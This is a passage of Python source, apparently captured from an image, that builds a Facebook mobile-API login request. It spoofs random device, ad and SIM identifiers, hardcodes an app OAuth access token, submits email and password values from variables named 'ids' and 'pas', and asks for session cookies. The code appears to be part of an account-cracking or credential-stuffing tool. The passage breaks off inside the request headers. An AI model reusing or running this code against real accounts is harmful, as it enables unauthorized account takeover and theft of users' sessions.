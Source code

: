                         random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers={
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':ua,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
